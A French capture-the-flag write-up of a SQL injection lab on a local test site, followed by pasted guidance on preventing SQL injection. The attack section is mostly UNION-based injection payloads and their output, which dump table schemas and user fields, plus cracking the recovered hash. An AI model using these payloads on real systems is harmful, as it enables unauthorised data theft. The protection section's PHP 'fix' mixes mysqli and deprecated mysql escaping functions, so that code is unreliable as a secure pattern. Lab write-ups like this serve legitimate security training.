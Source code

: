 page : http://localhost:8080/index.php?page=member

en testant TRUE dans linput on voit que des users sortent

les injections SQL ne sont donc pas protegees !

en rentrant la conmmande
TRUE UNION SELECT database()
on constate que le nb de colonne est faux (on peut remplacer le nom dune colonne par TRUE)
TRUE UNION SELECT database(), TRUE  
nous donne
ID: TRUE UNION SELECT database(), TRUE  
First name: Member_Sql_Injection
Surname : 1

on peut avoir acces au nom de la table et de ses colonnes via
TRUE UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database()

user_id, first_name, last_name, town, country, planet, Commentaire, countersign

on peut afficher tout le contenu de la table
TRUE UNION SELECT user_id, first_name FROM users

on finit par trouver le flag dans le champ countersign et la consigne dans Commentaire !
TRUE UNION SELECT Commentaire, countersign FROM users

ID: TRUE UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28


on decrypte le resultat via https://md5decrypt.net/
on obtient 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo : fortytwo

echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -

le flag est donc 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


DANGER :
dump les infos de l'integralite dune base, dans le pire des cas possibilites de modifier integralement les champs de la base (pop push column)


PROTECTION :
parser les inputs avec des regex ou des fonctions comme mysql_real_escape_string() qui retire les chars speciaux de l'input

Comment protéger vos bases de données d’une injection SQL ?
Vous pouvez mettre en place différentes mesures pour empêcher une attaque par injection SQL de votre système de base de données. Par conséquent, il est nécessaire de s’attarder sur l’ensemble des composants impliqués, tels que le serveur, sur chacune des applications mais aussi sur les systèmes de management de base de données.

Etape 1 : superviser la saisie automatique des applications

Testez et filtrez les méthodes et paramètres utilisés par les applications connectées lors de vos saisies dans la base de données. Les données remises devraient toujours être en accord avec le type de données attendu. Si un paramètre numérique est requis, vous pouvez le vérifier avec un script PHP à l’aide de la fonction is_numeric(). En ce qui concerne les filtres, les caractères spéciaux correspondants sont ignorés. Un autre point important est de s’assurer que les applications n’émettent pas de messages d’erreurs externes qui indiquent des informations sur le système utilisé ou les structures de la base de données.

Entre-temps, d’autres pratiques se sont largement répandues, comme ce que l’on nomme les Prepared Statements qui peuvent être utilisées avec de nombreux systèmes de management de banques de données. Ces déclarations prédéfinies étaient à l’origine utilisées pour exécuter des requêtes fréquentes, mais du fait de leur structure, elles permettent également de réduire les risques d’injection SQL. En effet, les instructions paramétrées transfèrent la commande SQL réelle des paramètres séparément de la base de données. Seul le système de management de la base de données lui-même relie les deux et masque ainsi automatiquement les caractères spéciaux importants.

Etape 2 : s’assurer de la protection complète du serveur

La sécurité du serveur sur lequel a cours votre système de gestion de base de données joue naturellement un rôle primordial dans la prévention contre les injections SQL. La première étape est donc de renforcer votre système d’exploitation selon le schéma établi :

Installer ou activer seulement les applications et services qui sont pertinents pour faire fonctionner la base de données.
Supprimer tous les comptes utilisateurs qui ne sont pas nécessaires.
S’assurer que toutes les mises à jour des systèmes et programmes pertinents sont installés.
Plus votre projet Web exige des mesures de sécurité importantes, et plus vous devrez envisager l’utilisation en amont de systèmes de détections d’intrusion (IDS) ou de systèmes de prévention d’intrusions (IPS). Cela fonctionne avec différents systèmes de reconnaissance pour identifier en amont les attaques sur le serveur, émettre des avertissements et dans le cas d’IPS de faire déclencher automatiquement les contre-mesures correspondantes. Un processus ALG (Application Layer Gateway) peut également être une mesure de protection judicieuse, en surveillant le trafic de données entre les applications et le navigateur Web directement au niveau de l’application.

Etape 3 : renforcer les bases de données et utiliser des codes sûrs

Tout comme votre système d’exploitation, les bases de données doivent être débarrassées de tout élément inutile et être mises à jour régulièrement. A cette fin, éliminez toutes les procédures enregistrées dont vous n’avez pas besoin et désactivez tous les services et comptes utilisateurs inutiles. Installez un compte spécifique pour votre base de données, qui sera prévu simplement pour y accéder depuis le Web, et qui sera pourvu de droits d’accès très restreints. Enregistrez par ailleurs dans votre base de données toutes les données sensibles de manière chiffrée, comme par exemple vos mots de passe.

Pour les Prepared Statements, il est urgemment recommandé de ne pas utiliser le module PHP mysql mais de choisir à la place mysqli ou PDO. De cette manière, vous pourrez par la même occasion vous protéger avec des codes sûrs. La fonction mysqli_real_escape_string() du script PHP permet par exemple d’éviter d’émettre des caractères spéciaux aux bases de données SQL sous leur forme originale. Si vous prenez par exemple les lignes de code ci-dessous :

$query = "SELECT * FROM users 
WHERE username= '" . $_POST['username'] . "' 
AND password= '" . $_POST['password'] . "'";
Pour les rallonger avec la fonction mentionnée :

$query = "SELECT * FROM users 
WHERE username= '" . mysqli_real_escape_string($_POST['username']) . "' 
AND password= '" . mysql_real_escape_string($_POST['password']) . "'";
